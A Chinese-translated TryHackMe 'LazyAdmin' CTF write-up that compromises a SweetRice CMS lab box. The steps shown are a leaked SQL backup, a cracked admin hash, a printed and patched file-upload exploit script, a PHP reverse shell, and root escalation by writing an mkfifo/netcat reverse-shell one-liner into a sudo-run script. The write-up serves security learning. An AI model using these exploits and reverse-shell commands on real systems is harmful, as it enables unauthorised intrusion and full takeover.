

# TryHackMe 报道:LazyAdmin

> 原文：<https://infosecwriteups.com/lazyadmin-tryhackme-writeup-c5f0d113bec6?source=collection_archive---------1----------------------->

[LazyAdmin (2019)](https://www.tryhackme.com/room/lazyadmin) 房间相当有趣。我假设管理员很“懒”，因此这个挑战会很容易。我错了，我发现自己依赖于一个以前的黑客关于这个挑战的文章。


基本图像:“来自地狱的杂种操作员”和“Lil & Put”

# 程序

## 网络扫描

与这些 boot2root 机器一样，我启动了 LazyAdmin 机器并开始探测机器。我用以下参数运行了一次`nmap`扫描:

`**$ nmap -sT -A -v -Pn -O -p- -oX tcp_scan.xml <target ip address>**`

扫描报告在端口 22 上有一个 OpenSSH 服务，在端口 80 上有一个 Apache 服务器。

## 探测 web 服务器

然后，我运行`gobuster`工具对目录进行暴力破解，发现了一个名为`/content`的子目录。浏览到`/content`子目录，我发现网络服务器正在运行一个名为“SweetRice”的内容管理系统，如下所示:



http:// <target ip="" address="">/content 的内容</target>

于是我使用`searchsploit`获得了一个与 SweetRice CMS 相关的漏洞列表:

```
**└─$ searchsploit sweetrice** 
 [...] Exploit Title | Path
 — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — -
SweetRice 0.5.3 — Remote File Inclusion | php/webapps/10246.txt
SweetRice 0.6.7 — Multiple Vulnerabilities | php/webapps/15413.txt
SweetRice 1.5.1 — Arbitrary File Download | php/webapps/40698.py
SweetRice 1.5.1 — Arbitrary File Upload | php/webapps/40716.py
SweetRice 1.5.1 — Backup Disclosure | php/webapps/40718.txt
SweetRice 1.5.1 — Cross-Site Request Forgery | php/webapps/40692.html
SweetRice 1.5.1 — Cross-Site Request Forgery / PHP Code Execution | php/webapps/40700.html
SweetRice < 0.6.4 — ‘FCKeditor’ Arbitrary File Upload | php/webapps/14184.txt [...]
```

我决定先尝试利用 *SweetRice 1.5.1 —备份披露*漏洞，因此`cat`给出了运行漏洞的指令:

```
**└─$ cat /usr/share/exploitdb/exploits/php/webapps/40718.txt**
Title: SweetRice 1.5.1 — Backup Disclosure
Application: SweetRice
Versions Affected: 1.5.1
Vendor URL: [http://www.basic-cms.org/](http://www.basic-cms.org/)
Software URL: [http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip](http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip)
Discovered by: Ashiyane Digital Security Team
Tested on: Windows 10
Bugs: Backup Disclosure
Date: 16-Sept-2016Proof of Concept :You can access to all mysql backup and download them from this directory.
http://localhost/inc/mysql_backupand can access to website files backup from:
http://localhost/SweetRice-transfer.zip
```

有意思。所以我决定在浏览器中输入以下内容:

```
(#1) http://<target ip address>/content/inc/mysql_backup
(#2) http://<target ip address>/content/SweetRice-transfer.zip
```

链接#2 返回了一个“没有找到文件”404 错误，但是链接#1 给了我一个看起来像 SQL 转储的东西。因此，很自然地，我下载了它，并用文本编辑程序检查了它。我在第 79 行发现了一个有趣的条目:

```
[ ... snip ... ]14 => ‘INSERT INTO `% — %_options` VALUES(\’1\’,\’global_setting\’,\’a:17:{s:4:\\”name\\”;s:25:\\”Lazy Admin&#039;s Website\\”;s:6:\\”author\\”;s:10:\\”Lazy Admin\\”;s:5:\\”title\\”;s:0:\\”\\”;s:8:\\”keywords\\”;s:8:\\”Keywords\\”;s:11:\\”description\\”;s:11:\\”Description\\”;s:5:**\\”admin\\”;s:7:\\”manager\\”;s:6:\\”passwd\\”;s:32:\\”42f749ade7f9e195bf475f37a44cafcb\\”**;s:5:\\”close\\”;i:1;s:9:\\”close_tip\\”;s:454:\\”<p>Welcome to SweetRice — Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\”Site close\\” to open your website.</p><p>More help at <a href=\\"[http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\](http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\)">Tip for Basic CMS SweetRice installed</a></p>\\”;s:5:\\”cache\\”;i:0;s:13:\\”cache_expired\\”;i:0;s:10:\\”user_track\\”;i:0;s:11:\\”url_rewrite\\”;i:0;s:4:\\”logo\\”;s:0:\\”\\”;s:5:\\”theme\\”;s:0:\\”\\”;s:4:\\”lang\\”;s:9:\\”en-us.php\\”;s:11:\\”admin_email\\”;N;}\’,\’1575023409\’);’,[ ... snip ... ]
```

这看起来像是包含了管理员面板的配置信息。目测 SQL 条目，我看到:

```
”admin\\”;s:7:\\”manager\\”;s:6:\\”passwd\\”;s:32:\\”42f749ade7f9e195bf475f37a44cafcb\\”
```

好像用户名是`manager`，密码是 hash `42f749ade7f9e195bf475f37a44cafcb`。我用 [CrackStation (n.d.)](https://crackstation.net/) 破解 hash，得到了`Password123`的结果。

鉴于这个房间名为“LazyAdmin”，我尝试使用管理器和密码 123 用户名和密码组合登录 SSH 服务:

```
**└─$ ssh manager@<target ip address>** 
The authenticity of host ‘<target ip address> (<target ip address>)’ can’t be established.
ED25519 key fingerprint is SHA256:gIHwIzi5a1G1WvkLMxJuFhSXiUnHy58kdQUcxmC6rIQ.
This host key is known by the following other names/addresses:
 ~/.ssh/known_hosts:80: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added ‘<target ip address>’ (ED25519) to the list of known hosts.
manager@<target ip address>’s password: **[Password123]**
Permission denied, please try again.
manager@<target ip address>’s password: **[Password123]**
Permission denied, please try again.
manager@<target ip address>’s password: **[Password123]**
manager@<target ip address>: Permission denied (publickey,password).
```

嗯，我的直觉到此为止😋

## 文件上传漏洞

所以我想我应该专注于开发 sweet rice web 应用程序。我试着摆弄管理面板，但没有任何进展。因此，回头看一下 SearchSploit 的结果，我注意到了另一个名为“sweet rice 1 . 5 . 1——任意文件上传”的漏洞，我意识到我可以用它将 web shell 上传到 web 服务器上。

所以我决定运行脚本，并得到以下错误:

```
[ … snip … ]Enter The Target URL(Example : localhost.com) : http://<target ip address>/content/
Traceback (most recent call last):
 File “exploit.py”, line 37, in <module>
 host = input(“Enter The Target URL(Example : localhost.com) : “)
 File “<string>”, line 1
 http://<target ip address>/content/
 ^
SyntaxError: invalid syntax
```

好吧。让我们来看看源代码:

```
[ ... snip ... ]# Get Host & User & Pass & filename
host = input(“Enter The Target URL(Example : localhost.com) : “)
username = input(“Enter Username : “)
password = input(“Enter Password : “)
filename = input(“Enter FileName (Example:.htaccess,shell.php5,index.html) : “)
file = {‘upload[]’: open(filename, ‘rb’)}payload = {
    ‘user’:username,
    ‘passwd’:password,
    ‘rememberMe’:’’
}with session() as r:
    login = r.post(‘http://' + host + ‘/as/?type=signin’, data=payload)
    success = ‘Login success’
    if login.status_code == 200:
        print(“[+] Sending User&Pass…”)
            if login.text.find(success) > 1:
                print(“[+] Login Succssfully…”)
            else:
               print(“[-] User or Pass is incorrent…”)
               print(“Good Bye…”)
               exit()
               pass
            pass
    uploadfile = r.post(‘[http://’](/') + host + ‘/as/?type=media_center&mode=upload’, files=file)
    if uploadfile.status_code == 200:
        print(“[+] File Uploaded…”)
        print(“[+] URL : http://” + host + “/attachment/” + filename)
        pass
```

需要做出两个重要的改变:

*   首先，当脚本要求`host`、`username`、`password`和`filename`时，需要将`input()`函数改为`raw_input()`
*   第二，输入`host`时，只放入`<target ip address>/<sweetrice directory>`减去`http://`位。该脚本的作者已经设置发送带有`http://`前缀的 web 请求，添加另一个“http://”将会混淆漏洞利用脚本。

现在我只需要选择和配置一个 web shell。我会选 *Pentest Monkey 的反壳*，它位于:

`/usr/share/webshells/php/php-reverse-shell.php`

在 Kali Linux 上。我设置了以下配置:

```
[ ... snip ... ]set_time_limit (0);
$VERSION = “1.0”;
$ip = ‘<my attackbox ip address>’; // CHANGE THIS
$port = 4444; // CHANGE THIS
$chunk_size = 1400;
$write_a = null;[ ... snip ... ]
```

运行漏洞，然后…

```
**└─$ python exploit.py**Enter The Target URL(Example : localhost.com) : <target ip address>/content
Enter Username : manager
Enter Password : Password123 
Enter FileName (Example:.htaccess,shell.php5,index.html) : shell.php5
[+] Sending User&Pass…
[+] Login Succssfully…
[+] File Uploaded…
[+] URL : http://<target ip address>/content/attachment/shell.php5
```

我只需要设置一个 netcat 监听器，并通过我的 web 浏览器请求 php 脚本:

```
**└─$ nc -l -n -v -p 4444**
listening on [any] 4444 …[ … requests the php shell …]connect to [<attackbox ip address>] from (UNKNOWN) [<target ip address>] 57614
Linux THM-Chal 4.15.0–70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 00:17:45 up 1:32, 0 users, load average: 0.00, 0.00, 0.00
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can’t access tty; job control turned off
**$ whoami**
www-data
```

我加入了。

## 标志和初始访问后

我将继续获取用户标志，并想出一种获取 root 权限的方法:

```
**$ cd /home**
**$ ls**
itguy
**$ cd itguy**
**$ ls**
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
**$ cat user.txt # <- the user flag** *[redacted]*
```

好吧，这很好。但现在我需要想办法找到根。在尝试使用`mysql_login.txt`给出的凭证登录 MySQL 数据库之后，并且在由于严格的目录许可而无法将 Linux 智能枚举( [Blanco，n.d.](https://github.com/diego-treitos/linux-smart-enumeration) )加载到系统上之后，我决定转而专注于通过`backup.pl`脚本获得 root 访问权限。脚本的内容是:

```
**$ cat backup.pl**
#!/usr/bin/perlsystem(“sh”, “/etc/copy.sh”);
```

`/etc/copy.sh`剧本看起来很有趣。其内容是:

```
**$ cat /etc/copy.sh**
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

我知道我必须对这个脚本做些什么来获得 root 访问权限，但是我就是不能把我的手指放在它上面。因此，我尝试研究这些命令，并最终在其他文章中寻找“提示”我看到了[《穆兰多尔》(2020)](https://muirlandoracle.co.uk/2020/01/11/lazyadmin-write-up/) 写的一篇关于这个房间的文章，并决定复制他们的技巧:

```
[ ... target machine ... ]**$ echo “rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <target ip address> 5554 >/tmp/f” > /etc/copy.sh**
**$ sudo /usr/bin/perl /home/itguy/backup.pl**[ ... attackbox ... ]**└─$ nc -l -v -n -p 5554**
listening on [any] 5554 ...
connect to [<attackbox ip address>] from (UNKNOWN) [<target ip address>] 36926
/bin/sh: 0: can't access tty; job control turned off
**# id**
uid=0(root) gid=0(root) groups=0(root)
**# cat /root/root.txt # <- the root flag**
*[redacted]*
```

# 摘要

尽管有这个名字，但在这里设计旗帜需要的技巧比我准备好的要多一些。我需要[《穆兰道尔》(2020)](https://muirlandoracle.co.uk/2020/01/11/lazyadmin-write-up/) 的帮助，我需要更多的练习才能提升到精英黑客的地位。

同样值得注意的是，最近，[“ippsec”和“0x df”(2022)](https://www.hackthebox.com/blog/It-is-Okay-to-Use-Writeups)提出，像我这样的初学者，如果他们真的很难侵入模拟计算机或网络，可以参考文献。我想补充一点，在写文章之前，你应该先试着自己黑一个电脑系统。此外，如果你决定写自己的报告，一定要在该表扬的地方给予表扬；-)

## 吸取的教训

*   漏洞利用有时会中断，所以一定要有编码和调试背景来修复它们；-)
*   在没有`nano`、`vim`或其他基于终端的文本编辑器的情况下，使用`echo`覆盖具有`a+rwx`文件权限的文件。
*   人们不应该过分依赖 Linux 智能枚举( [Blanco，n.d.](https://github.com/diego-treitos/linux-smart-enumeration) )或 *Linux 漏洞利用建议者*([“mzet”，n.d.](https://github.com/mzet-/linux-exploit-suggester) )。因为有时目录权限可能非常严格。
*   不要低估“懒惰”的系统管理员，尽管他们很懒，但仍然很难工作。

# 引用的作品

布兰科博士。 *Linux 智能枚举:用于 pentesting 和 CTF 的 Linux 枚举工具，具有详细级别*。GitHub。2022 年 2 月 7 日检索自:[https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)

裂解站(未标明)。2022 年 2 月 7 日检索自:[https://crackstation.net/](https://crackstation.net/)

“ippsec”和“0x df”(2022)。使用书面材料是可以的。黑盒子。2022 年 2 月 7 日检索自:[https://www.hackthebox.com/blog/It-is-Okay-to-Use-Writeups](https://www.hackthebox.com/blog/It-is-Okay-to-Use-Writeups)

“Mrs eth 6797”(2019)。拉扎德明。TryHackMe。2022 年 2 月 7 日检索自:[https://www.tryhackme.com/room/lazyadmin](https://www.tryhackme.com/room/lazyadmin)

《穆兰道尔》(2020)。 *LazyAdmin —向上写*。2022 年 2 月 7 日检索自:[https://muirlandoracle.co.uk/2020/01/11/lazyadmin-write-up/](https://muirlandoracle.co.uk/2020/01/11/lazyadmin-write-up/)

“mzet”(未注明)。 *Linux 权限提升审计工具*。GitHub。2022 年 2 月 7 日检索自:【https://github.com/mzet-/linux-exploit-suggester 

# 🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。[查看更多详情并在此注册。](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)